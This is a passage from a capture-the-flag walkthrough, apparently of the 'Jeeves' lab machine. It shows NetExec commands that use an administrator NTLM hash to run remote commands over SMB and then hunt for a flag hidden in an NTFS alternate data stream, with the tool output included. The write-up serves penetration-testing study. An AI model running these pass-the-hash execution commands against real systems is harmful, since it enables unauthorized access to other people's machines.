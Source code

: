 Ok.. so we have command execution with smb exec. Let's see if we can grab our flag...
```bash
nxc smb 10.129.59.102 -u administrator -H 'aad3b435b51404eeaad3b435b51404ee:e0fb1fb857[...snip...]238cbe81fe00' --local-auth -x 'dir c:\users\administrator\desktop\' --exec-method smbexec
SMB         10.129.59.102   445    JEEVES           [*] Windows 10 Build 10586 x64 (name:JEEVES) (domain:JEEVES) (signing:False) (SMBv1:True) 
SMB         10.129.59.102   445    JEEVES           [+] JEEVES\administrator:e0fb1fb85756c24235ff238cbe81fe00 (Pwn3d!)
SMB         10.129.59.102   445    JEEVES           [+] Executed command via smbexec
SMB         10.129.59.102   445    JEEVES            Volume in drive C has no label.
SMB         10.129.59.102   445    JEEVES            Volume Serial Number is 71A1-6FA1
SMB         10.129.59.102   445    JEEVES            Directory of c:\users\administrator\desktop
SMB         10.129.59.102   445    JEEVES           11/08/2017  10:05 AM    <DIR>          .
SMB         10.129.59.102   445    JEEVES           11/08/2017  10:05 AM    <DIR>          ..
SMB         10.129.59.102   445    JEEVES           12/24/2017  03:51 AM                36 hm.txt
SMB         10.129.59.102   445    JEEVES           11/08/2017  10:05 AM               797 Windows 10 Update Assistant.lnk
SMB         10.129.59.102   445    JEEVES                          2 File(s)            833 bytes
SMB         10.129.59.102   445    JEEVES                          2 Dir(s)   2,668,920,832 bytes free
```

Uhhhh.... something seems to be missing... let's get some more details...
```bash
nxc smb 10.129.59.102 -u administrator -H 'aad3b435b51404eeaad3b435b51404ee:e0fb1fb857[...snip...]238cbe81fe00' --local-auth -x 'dir /r c:\users\administrator\desktop\' --exec-method smbexec 
SMB         10.129.59.102   445    JEEVES           [*] Windows 10 Build 10586 x64 (name:JEEVES) (domain:JEEVES) (signing:False) (SMBv1:True) 
SMB         10.129.59.102   445    JEEVES           [+] JEEVES\administrator:e0fb1fb85756c24235ff238cbe81fe00 (Pwn3d!)
SMB         10.129.59.102   445    JEEVES           [+] Executed command via smbexec
SMB         10.129.59.102   445    JEEVES            Volume in drive C has no label.
SMB         10.129.59.102   445    JEEVES            Volume Serial Number is 71A1-6FA1
SMB         10.129.59.102   445    JEEVES            Directory of c:\users\administrator\desktop
SMB         10.129.59.102   445    JEEVES           11/08/2017  10:05 AM    <DIR>          .
SMB         10.129.59.102   445    JEEVES           11/08/2017  10:05 AM    <DIR>          ..
SMB         10.129.59.102   445    JEEVES           12/24/2017  03:51 AM                36 hm.txt
SMB         10.129.59.102   445    JEEVES                                               34 hm.txt:root.txt:$DATA
SMB         10.129.59.102   445    JEEVES           11/08/2017  10:05 AM               797 Windows 10 Update Assistant.lnk
SMB         10.129.59.102   445    JEEVES                          2 File(s)            833 bytes
SMB         10.129.59.102   445    JEEVES                          2 Dir(s)   2,668,929,024 bytes free
```

Ok... so someone is trying to be tricky. This is what's called an alternate data stream. Unfortunately, `type` can't read that. `more` can though, I'm not sure how well this is going to work though...

```bash
xc smb 10.129.59.102 -u administrator -H 'aad3b435b51404eeaad3b435b51404ee:e0fb1fb857[...snip...]238cbe81fe00' --local-auth -x 'more < c:\users\administrator\desktop\hm.txt:root.txt' --exec-method smbexec
SMB         10.129.59.102   445    JEEVES           [*] Windows 10 Build 10586 x64 (name:JEEVES) (domain:JEEVES) (signing:False) (SMBv1:True) 
SMB         10.129.59.102   445    JEEVES           [+] JEEVES\administrator:e0fb1fb85756c24235ff238cbe81fe00 (Pwn3d!)
SMB         10.129.59.102   445    JEEVES           [-] SMBEXEC: Could not retrieve output file, it may have been detected by AV. Please increase the number of tries with the option '--get-output-tries'. If it is still failing, try the 'wmi' protocol or another exec method
SMB         10.129.59.102   445    JEEVES           [+] Executed command via smbexec
```
